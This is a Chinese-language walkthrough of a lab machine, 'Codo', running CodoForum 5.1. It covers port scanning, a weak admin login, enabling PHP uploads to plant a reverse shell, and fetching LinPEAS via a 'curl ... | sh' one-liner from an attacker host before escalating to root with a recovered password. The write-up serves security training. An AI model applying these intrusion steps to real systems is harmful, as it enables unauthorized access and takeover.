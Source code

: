 ```yaml
---
description: Linux - Easy：CODOFORM V.5.1.105
---
```


# ✔️ Codo

## 建立立足点

### 信息枚举

使用Nmap对目标系统进行开放端口扫描，获得2个端口：22和80

```bash
nmap -sC -sV -p- -oA codo 192.168.200.23 --open  
```

<figure><img src="../../.gitbook/assets/1 (16).png" alt=""><figcaption></figcaption></figure>

检查80端口上的Web页面：

<figure><img src="../../.gitbook/assets/2 (18).png" alt=""><figcaption></figcaption></figure>

尝试枚举80端口上的隐藏文件/目录，并&#x5728;**/admin**路径上发现登录界面：

```bash
dirsearch -u http://192.168.200.23
```

<figure><img src="../../.gitbook/assets/3 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (16).png" alt=""><figcaption></figcaption></figure>

尝试用弱口令<mark style="color:red;">**admin:admin**</mark>登录成功：

<figure><img src="../../.gitbook/assets/5 (17).png" alt=""><figcaption></figcaption></figure>

并且发现目标正在使用的是：CODOFORM V.5.1.105

<figure><img src="../../.gitbook/assets/6 (16).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

查找相关漏洞发现其有一个远程命令执行的漏洞可以利用：

```bash
searchsploit codoforum 5.1
searchsploit -m 50978.py .
```

<figure><img src="../../.gitbook/assets/7 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (13).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

根据该脚本的使用方法所构造的命令确认无误后，发现始终无法利用成功。但仍然从该脚本中获取到了重要的信息：**可在admin设置中上传脚本**

<figure><img src="../../.gitbook/assets/9 (13).png" alt=""><figcaption></figcaption></figure>

决定直接在admin后台中上传反弹shell来get shell。

* 先在全局设置中的可上传文件类型中**添加.php**，以方便后续上传**php-reverse-shell.php脚本**

<figure><img src="../../.gitbook/assets/10 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (14).png" alt=""><figcaption></figcaption></figure>

* 然后准备好php-reverse-shell.php脚本，修改好反弹shell监听的主机IP和端口号，并在Kali本机监听好端口：

```bash
// Kali本机监听
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/12 (14).png" alt=""><figcaption></figcaption></figure>

* 在用户->管理用户->admin的设置页面中，找到头像上传项，并将准备好的反弹shell脚本上传后，点save键触发脚本：

<figure><img src="../../.gitbook/assets/13 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (14).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

成功获得反弹shell，并获得local.txt：

<figure><img src="../../.gitbook/assets/15 (13).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

上传LinPEAS.sh脚本，对目标进行本地信息收集，已发现可利用的提权漏洞：

```bash
// Kali本机准备好linpeas.sh脚本，并在所属目录下开启服务器
python3 -m http.server
// 在目标系统中，下载linpeas.sh到本地并且直接执行
curl -L 192.168.45.172:8000/linpeas.sh |sh
```

<figure><img src="../../.gitbook/assets/16 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (14).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

阅读linpeas.sh脚本的输出结果后，发现一个密码：<mark style="color:red;">**FatPanda123**</mark>

<figure><img src="../../.gitbook/assets/18 (13).png" alt=""><figcaption></figcaption></figure>

并且已知当前系统上有两个用户账户：offsec和root，分别尝试后发现它是root账户的密码。

### ROOT

<figure><img src="../../.gitbook/assets/19 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (9).png" alt=""><figcaption></figcaption></figure>
